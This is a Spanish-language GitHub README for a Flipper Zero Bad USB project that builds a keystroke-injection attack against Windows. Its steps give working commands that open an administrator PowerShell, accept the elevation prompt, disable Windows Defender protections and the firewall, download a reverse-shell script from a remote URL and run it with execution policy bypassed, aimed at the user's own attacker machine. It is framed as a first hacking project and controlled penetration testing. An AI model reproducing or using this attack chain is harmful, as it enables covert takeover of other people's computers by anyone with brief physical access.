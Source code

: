 # REVERSE-ZERO

![imagen](https://github.com/90l3m0np13/Reverse-Zero/blob/main/im%C3%A1genes/Designer.jpeg)



# Descripción

Reverse-Zero es un proyecto de investigación y desarrollo en el ámbito del hacking, centrado en la exploración de las capacidades de programación del Flipper Zero. En particular, se enfoca en la aplicación Bad USB, que permite ejecutar cargas útiles automatizadas a través de un dispositivo USB.

Este proyecto representa mi primera incursión en el mundo del hacking, donde he investigado a fondo el uso de PowerShell y otros lenguajes de scripting para aprovechar las funcionalidades del Flipper Zero.

# Características

Automatización de scripts para Bad USB en Flipper Zero.

Desarrollo de payloads personalizados con PowerShell.

Análisis de seguridad y pruebas de penetración controladas.

# Requisitos

Para utilizar este proyecto, necesitarás:

Un dispositivo Flipper Zero.

Un editor de texto (VS Code, Notepad++, etc.).

Conocimientos básicos de PowerShell.


# Instalación y uso.

1.  Clonar el repositorio
      ```sh g
       git clone https://github.com/90l3m0np13/Reverse-Zero/blob/main/REVERSE_SHELL.txt
      ```
2.  Abre el archivo en un editor de texto y cambia los apartados de IP y Puerto por los de tu máquina atacante.
3.  Carga los scrips en tu Flipper Zero


     - Copia los archivos al directorio correspondiente en la memoria del Flipper.
     - Ejecuta el payload desde la aplicación Bad USB.

# Crea tu ReverseShell desde 0



1. Crea una reverseshell desde 0, o hazla en la página https://www.revshells.com/. 





1. Crea un archivo TXT compuesto por DELAYS, ENTERS Y STRINGS adecuandolos a tu gusto. (Tienes el ejemplo en el proyecto de una reverseshell creada por mi).





1.  DELAY = La función que hace que el procesador espere "delay(1000); //provoca un retardo de 1000ms = 1 segundo".
2.  ENTER = Simula la acción de la tecla Intro del teclado.
3.  STRING = Se trata de una secuencia de caracteres usados para representar el texto.

1.  Sabiendo esto, vamos a empezar a programar nuestro txt.





 1.  Con este comando en String abrimos la pestaña de Ejecutar.
      ```sh g
      GUI r
      ```



 1.  Abrimos Powershell.
      ```sh g
      powershell
      ```
 1.  Lo ejecutamos como administrador.
      ```sh g
      CTRL-SHIFT ENTER
      ```

 1.  Le damos a que sí cuando nos pregunte si queremos abrirlo como administrador.
      ```sh g
      ALT s
      ```
 1.  Utilizamos este String para para deshabilitar el Windows Defender.
      ```sh g
      powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -  
      DisableIntrusionPreventionSystem $true'
      ```
 1.  Desactivamos el Firewall.
      ```sh g
      Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
      ```
 1.  Descargamos el ReverseShell con el String Invoke-WebRequest (Yo en mi caso lo tengo alojado en github).
      ```sh g
      Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alvaroarenas69/scrips-powershell/main/reverseshell.ps1" -OutFile "reverseshell.ps1"
      ```
 1.  Ejecutamos el ReverseShell.
      ```sh g
      powershell -ExecutionPolicy Bypass -File ".\reverseshell.ps1"
      ```
 1.  Una vez creado el txt, lo guardamos. Conectamos el Flipper al PC mediante la aplicación qflipper, que podemos descargar en el siguiente      enlace: https://flipperzero.one/update
 2.  Dentro de la aplicación, buscamos el fichero Read File y pegamos el txt en la carpeta BADUSB.

    
     ![imagen](https://github.com/90l3m0np13/Reverse-Zero/blob/main/im%C3%A1genes/badusb.png)
 4.  Y por último, solo queda ejecutar el Scrip que hemos creado desde el flipper zero.


















